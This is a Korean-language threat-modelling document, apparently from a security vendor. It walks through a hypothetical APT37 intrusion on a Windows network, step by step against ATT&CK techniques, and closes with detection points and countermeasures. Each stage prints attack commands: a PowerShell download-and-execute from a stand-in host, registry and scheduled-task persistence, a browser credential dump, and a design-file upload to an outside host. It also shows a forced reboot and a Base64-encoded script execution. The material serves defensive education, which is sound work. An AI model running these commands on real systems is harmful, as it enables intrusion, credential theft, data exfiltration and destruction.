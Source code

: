 # APT37(ScarCruft) — 가상의 Windows 침투 시나리오

## 가정 환경

* **대상**: 한국 소재 제조업 본사 네트워크 (Windows 10/11 클라이언트)
* **모니터링**: 기본 이벤트 로그 + Sysmon v13 구성
* **보안 설정**: UAC 기본값 유지 (EnableLUA = 1)
* **목표**: R\&D 설계 도면 탈취 후 내부 중요 PC 파괴

---

## 1️⃣ 초기 침투 (Initial Access / Execution)

| 순서  | TID                                   | 행위                          | 
| --- | ------------------------------------- | --------------------------- | 
| 1-1 | T1566.001 – Spear Phishing Attachment | 팀장에게 악성 한글(HWP) 문서 첨부 메일 발송 | 
| 1-2 | T1204.002 – User Execution            | 사용자가 문서 열람, 매크로 실행          | 
| 1-3 | T1105 – Ingress Tool Transfer         | 최종 백도어(Dolphin) 다운로드 및 실행   |

```powershell
powershell -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://cdn.evilsite.kr/dropper.ps1')"
```

---

## 2️⃣ 권한 상승·지속화 (Privilege Escalation / Persistence)

| 순서  | TID                                     | 행위                         | 
| --- | --------------------------------------- | -------------------------- | 
| 2-1 | T1548.002 – Bypass User Account Control | UAC 우회 (Akagi + fodhelper) |
| 2-2 | T1547.001 – Registry Run Keys           | Run 키 등록으로 사용자 로그인 시 자동 실행 |

```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Update /t REG_SZ /d "%APPDATA%\update.exe"
```

| 2-3 | T1053.005 – Scheduled Task | SYSTEM 권한 확보 위한 예약 작업 생성 |

```cmd
schtasks /Create /RU SYSTEM /SC ONSTART /TN "SvcInit" /TR "%APPDATA%\update.exe"
```

---

## 3️⃣ 시스템·사용자 조사 (Discovery)

| 순서  | TID                                  | 행위                       | 
| --- | ------------------------------------ | ------------------------ | 
| 3-1 | T1082 – System Information Discovery | OS, 패치, 도메인 정보 수집        | 
| 3-2 | T1033 – System Owner/User Discovery  | 사용자 정보 및 권한 확인           | 
| 3-3 | T1057 – Process Discovery            | 백신 및 보안 프로세스 확인          | 
| 3-4 | T1120 – Peripheral Device Discovery  | 외장 USB 탐지 (설계도 백업 여부 확인) | 

```powershell
powershell -c "Get-PnpDevice -Class USB"
```

---

## 4️⃣ 자격 증명·데이터 수집 (Credential Access / Collection)

| 순서  | TID                                       | 행위              | 
| --- | ----------------------------------------- | --------------- | 
| 4-1 | T1555.003 – Credentials from Web Browsers | Chrome 저장 암호 덤프 | 

```powershell
powershell -ep bypass -c "(Get-ItemProperty -Path 'HKCU:\Software\Google\Chrome\...') > '%TEMP%\chrome_creds.txt'"
```

| 4-2 | T1005 – Data from Local System | CAD/PDF 도면 검색 및 ZIP 압축 |

```powershell
$dir="C:\Projects"; $zip="$env:TEMP\designs.zip"; Compress-Archive -Path $dir\*.pdf,$dir\*.dwg -DestinationPath $zip
```

| 4-3 | T1123 – Audio Capture | 회의 녹음 15초 |

```cmd
"%ProgramFiles%\AudioRecorder.exe" -out "%TEMP%\meeting.wav" -d 15
```

---

## 5️⃣ C2 통신·데이터 유출 (Command & Control / Exfiltration)

| 순서  | TID                               | 행위               | 
| --- | --------------------------------- | ---------------- | 
| 5-1 | T1071.001 – Web Protocols (HTTPS) | CDN 기반 HTTPS 터널링 | 

```cmd
bitsadmin /transfer myDownload /download /priority normal "https://cdn.dropzone.net/beacon" "%TEMP%\b.dat"
```

| 5-2 | T1105 – Ingress Tool Transfer | 설계도 압축본 업로드 |

```powershell
Invoke-RestMethod "https://cdn.dropzone.net/upload" -InFile "$env:TEMP\designs.zip"
```

---

## 6️⃣ 파괴 행위 (Impact)

| 순서  | TID                            | 행위                 | 
| --- | ------------------------------ | ------------------ |
| 6-1 | T1529 – System Shutdown/Reboot | 강제 재부팅 → 암호화 전환 시도 | 

```cmd
shutdown /r /t 1 /f
```

| 6-2 | T1027 – Obfuscated Files or Information | 랜섬노트 실행 Base64 인젝션 |

```powershell
powershell -c "IEX ([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('base64encodedransomscript==')))"
```

---

## 📌 탐지·수색 포인트 요약

| 단계     | Sysmon/Event ID           | 탐지 키워드                         |
| ------ | ------------------------- | ------------------------------ |
| 권한 상승  | Sysmon 1 (ProcessCreate)  | `Akagi64.exe`, `fodhelper.exe` |
| 시스템 조사 | Sysmon 1 / 4688           | `systeminfo`, `wmic`, `whoami` |
| 자격 탈취  | Event ID 4656             | `Chrome Login Data` 접근         |
| 외부 전송  | Sysmon 3 (NetworkConnect) | 외부 443 → SNI: `cdn-*`          |
| 시스템 파괴 | Event ID 1074             | `Shutdown Type: restart`       |

---

## 🔒 PLURA-XDR 대응 방법 요약 및 참고 자료

* 의심스러운 HWP/LNK 첨부 파일 차단 및 정밀 검사
* PowerShell IEX 및 Base64 인코딩 탐지 정책 강화
* Sysmon + PLURA-XDR 기반의 로그 상관 분석
* PLURA-EDR 통한 Akagi 실행·UAC 우회 패턴 탐지
* LNK 및 예약 작업 생성 탐지 정책 설정 필수

👉 [자세히](plura_waf_xdr_detection.md)

---

